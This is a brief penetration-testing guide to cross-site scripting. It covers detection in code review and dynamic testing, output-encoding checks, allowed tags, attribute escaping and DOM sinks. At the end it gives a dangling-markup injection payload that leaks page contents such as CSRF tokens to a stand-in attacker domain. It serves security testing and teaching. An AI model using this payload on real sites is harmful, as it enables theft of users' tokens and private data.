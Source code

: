 # Cross-Site Scripting (XSS)

## Code Review Detection
Check for any user input or data input being written to HTML wihtout sanitization.

## Dynamic Testing Detection
Send unique strings to user inputs and see if any input is reflected back to any components on the web page.

## Exploitation

### Encoding
Check encodings of the following characters being reflected in HTML
```
&
<
>
"
'
```

They should appear as
```
& -> &amp
< -> &lt;
> -> &gt;
" -> &#034; -> &quot;
' -> &#039; -> &apos;
```

If the characters are being reflected into other forms of data representation, check the specific characters that are applicable.

### Available Tags
Some applications allow certain HTML tags to be included in user input. Check if they lead to XSS using [Portswigger's XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

### HTML Tag Attributes
If the user input is reflected in tag attributes and it is possible to escape the HTML attrbitue, this can lead to XSS by specifying malicious tag attributes.

### DOM-based XSS
Look for [DOM sinks](/attack_sinks/dom_xss_sinks.md).

### Dangling Markup Injection
Where XSS is not possible, try using payload like the following:
```
"><img src='//attacker-website.com?
```
The rest of the HTML page would be treated like a parameter and leaked to attacker controlled domain. This could be used to grab CSRF tokens, email messages, or sensitive data on the page.
